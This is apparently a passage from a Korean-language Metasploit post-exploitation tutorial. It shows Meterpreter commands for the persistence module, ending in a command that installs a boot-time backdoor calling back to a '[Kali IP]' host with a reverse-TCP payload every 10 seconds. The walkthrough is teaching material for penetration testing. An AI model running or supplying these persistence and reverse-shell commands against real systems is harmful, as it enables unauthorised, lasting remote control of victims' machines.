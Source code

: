 ```
> run
```

![4_18](./image4/post-exploit2.png)

persistence를 실행시키고 -h 명령어를 통해 사용 방법을 알아보자

```
meterpreter > run persistence -h
```

![4_19](./image4/post-exploit3.png)

각 옵션에 따라 부팅시, 로그인시 등 다양한 설정이 가능하다.

에이전트에 연결하기 위해 적절한 exploit/multi/handler 자동 시작

우리는 시스템이 부팅시 자동적으로 실행, 연결 시도 간격 10초로 설정한다.

```
meterpreter > run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r [Kali IP]
```
